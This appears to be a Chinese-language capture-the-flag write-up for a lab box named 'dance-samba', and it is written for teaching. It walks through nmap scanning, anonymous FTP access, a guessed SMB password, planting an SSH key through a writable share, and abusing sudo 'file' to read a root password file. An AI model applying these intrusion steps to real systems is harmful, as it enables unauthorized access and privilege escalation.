







## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Medium |

## Nmap

```
[root@kali] /home/kali/dance-samba  
❯ nmap 172.17.0.2 -sV  -A

PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r-- 1 0        0              69 Aug 19  2024 nota.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 a2:4e:66:7d:e5:2e:cf:df:54:39:b2:08:a9:97:79:21 (ECDSA)
|_  256 92:bf:d3:b8:20:ac:76:08:5b:93:d7:69:ef:e7:59:e1 (ED25519)
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
MAC Address: 02:42:AC:11:00:02 (Unknown)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2025-02-21T12:45:31
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

TRACEROUTE
HOP RTT     ADDRESS
1   0.11 ms 172.17.0.2

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.37 seconds
```

## enum4linux





找到用户名：**macarena**

## FTP FileLeak

尝试**FTP**匿名登录，得到一个留言

```
[root@kali] /home/kali/dance-samba  
❯ ftp 172.17.0.2                                                                                                                                          ⏎
Connected to 172.17.0.2.
220 (vsFTPd 3.0.5)
Name (172.17.0.2:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||60425|)
150 Here comes the directory listing.
-rw-r--r-- 1 0        0              69 Aug 19  2024 nota.txt
226 Directory send OK.
ftp> get nota.txt
local: nota.txt remote: nota.txt
229 Entering Extended Passive Mode (|||13977|)
150 Opening BINARY mode data connection for nota.txt (69 bytes).
100% |***************************************************************************************************************|    69      556.88 KiB/s    00:00 ETA
226 Transfer complete.
69 bytes received in 00:00 (90.81 KiB/s)
ftp> exit
221 Goodbye.

[root@kali] /home/kali/dance-samba  
❯ ls
auto_deploy.sh  dance-samba.tar  dance-samba.zip  nota.txt

[root@kali] /home/kali/dance-samba  
❯ cat nota.txt    

I don't know what to do with Macarena, she's obsessed with donald.
```

看来**macarena**很喜欢**donald**，或许会把他的名字作为密码呢？

尝试进入**smb**服务获取到了**user.txt**



## Root

使用smbmap可以看到具有写入权限



看起来这个smb服务的目录是直接连接到**/home/macarena**的，因此可以尝试创建一个**.ssh**目录，并且上传到里面的**authorized\_keys**。这里我的**id\_rsa.pub**是之前就用过的，这里就不重新生成了

```
smb: \> mkdir .ssh
smb: \.ssh\> put id_rsa.pub authorized_keys
```



在**home**文件夹下发现一个**secret**




得到密码：`supersecurepassword`，当然这不是**root**的密码，不过可以看到**macarena**的特殊命令

```
macarena@2ee34abfffe4:/home/secret$ sudo -l
[sudo] password for macarena: 
Matching Defaults entries for macarena on 2ee34abfffe4:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User macarena may run the following commands on 2ee34abfffe4:
    (ALL : ALL) /usr/bin/file
```

可以参考👇

- [File | GTFOBins](https://gtfobins.github.io/gtfobins/file/)

我尝试读取了**root**的**ssh**密钥，结果失败了，在**/opt**目录下发现一个**root**权限的**password.txt**，刚好可以配合**file**命令进行读取，密码为：**rooteable2**


提升用户为**root**即可



## Summary

`User`：**ftp**的匿名登陆泄露文件，再通过**smb**读取到**user.txt**

`Root`：一个比较特殊的点就是，**macarena**的**smb**目录似乎就是他的家目录，因为可以看到**bashrc**、**profile**等特定文件。因此可以写入**ssh**密钥后登录。在**/home/secret**目录下拿到**macarena**的密码，随后可以进行**sudo**查看命令。期间我尝试过读取**/root/root.txt**和**/root/.ssh/id\_rsa**等，但是**root**用户并没有配置**ssh**密钥。幸好在**/opt**目录下有不可读的密码文件，可以通过**file**命令读取，成功提权。
